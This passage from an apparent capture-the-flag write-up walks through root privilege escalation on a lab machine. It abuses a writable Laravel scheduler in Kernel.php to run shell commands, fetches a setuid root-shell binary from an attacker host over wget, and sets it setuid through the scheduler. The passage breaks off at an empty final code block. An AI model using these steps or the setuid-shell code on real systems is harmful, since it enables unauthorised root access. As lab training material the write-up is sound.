 ```bash
ls -l /var/www/laravel/artisan                                                                                                                                       
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```
According to https://laravel-guide.readthedocs.io/en/latest/scheduling/, scheduled tasks can be defined in the app/Console/Kernel.php file.

### 7. Run an Artisan task
Reference: https://laravel-guide.readthedocs.io/en/latest/scheduling/  
  
Navigating to and opening app/Console/Kernel.php, see if a command can be executed by defining a new task.
```php
protected function schedule(Schedule $schedule)
    {
        $schedule->exec('echo "test" > /tmp/test.txt')->everyMinute();
    } 
```
This function defined a task which executes a shell command and writes a file into '/tmp' every minute. After editing the file, wait a minute and see that test.txt has been created in /tmp.
```bash
www-data@cronos:/var/www/laravel$ ls -l /tmp/test.txt
-rw-r--r-- 1 root root 0 May 22 07:28 /tmp/test.txt
```

### 8. Get a shell as root
To escalate, compile a setuid binary on the attacker machine, wget it to the host and then assign it the correct permissions to execute as root with the scheduled task.
The setuid binary source code looks like this:
```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdlib.h>

int main() {
        setresuid(0,0,0);
        system("/bin/sh");
        return 0;
}
```
Compile it locally with GCC and then transfer it to the machine.
```bash
www-data@cronos:/tmp$ wget http://10.10.14.104:8000/escalate
--2021-05-22 07:54:10--  http://10.10.14.104:8000/escalate
Connecting to 10.10.14.104:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16664 (16K) [application/octet-stream]
Saving to: 'escalate'

escalate            100%[===================>]  16.27K  50.0KB/s    in 0.3s    

2021-05-22 07:54:11 (50.0 KB/s) - 'escalate' saved [16664/16664]
```
Change the scheduled task function to now be:
```php
protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root: /tmp/escalate; chmod 6755 /tmp/escalate')->everyMinute();
    } 
```
This changes ownership of the binary from www-data to root, and then assigns the suid bit with execution permissions for all users, meaning the binary will execute as the root user for anyone that runs it.  
Wait a minute then just run the binary to escalate straight to root.
```bash
```